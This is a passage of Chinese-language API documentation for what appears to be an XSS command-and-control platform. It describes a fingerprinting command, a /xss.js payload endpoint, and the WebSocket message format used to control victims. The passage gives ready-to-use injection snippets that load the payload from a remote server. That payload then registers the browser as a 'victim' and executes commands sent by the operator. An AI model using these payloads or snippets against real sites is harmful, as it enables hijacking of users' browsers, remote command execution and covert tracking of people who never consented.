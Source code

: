 ### 8. 获取用户代理
```json
{
  "command": "userAgent"
}
```
**功能:** 获取浏览器用户代理字符串
**用途:** 浏览器指纹识别

---

## 📜 载荷 API

### 获取 JavaScript 载荷
```http
GET /xss.js?project={project_id}
```

**功能:** 获取用于 XSS 注入的 JavaScript 载荷代码

**查询参数:**
- `project` (必需, string): 项目JID

**响应:** 返回自动连接到指定项目的 JavaScript 代码

**载荷功能:**
- 🔗 自动建立 WebSocket 连接
- 🎭 识别为靶机角色 (victim)
- 💓 定期发送心跳保持连接
- 📡 接收并执行来自服务器的命令

**使用方式:**
```html
<!-- 直接注入 -->
<script src="http://localhost:8088/xss.js?project=PROJ123456"></script>

<!-- 或通过 JavaScript -->
<script>
document.write('<script src="http://localhost:8088/xss.js?project=PROJ123456"><\/script>');
</script>
```

---

## 🔌 WebSocket 消息格式

### 消息结构
```json
{
  "type": "command|result|heartbeat|welcome",
  "from": "client_id",
  "to": "target_id",
  "data": {},
  "timestamp": 1642680000
}
```

